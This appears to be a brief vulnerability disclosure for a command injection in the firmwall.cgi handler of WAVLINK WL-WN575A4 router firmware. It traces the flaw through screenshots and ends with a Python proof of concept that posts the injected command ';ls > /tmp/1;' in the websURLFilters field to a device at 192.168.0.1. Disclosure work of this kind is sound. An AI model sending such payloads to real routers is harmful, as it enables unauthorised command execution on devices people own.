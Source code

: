 # command injection

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a command injection in firmwall.cgi/iptablesWebsFilterRun

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](6.png)  
concate and call system, cause command injection  
![](7.png)  
and we can know function get_nth_value pass a2 to a4  
![](8.png)  
v0 get value from websURLFilters  
![](9.png)  
we can set websURLFilters in function websURLFilter via parameter websURLFilters




## POC
```
url = "http://192.168.0.1/cgi-bin/firmwall.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page':'websURLFilter', 'websURLFilters':  payload})
``` 
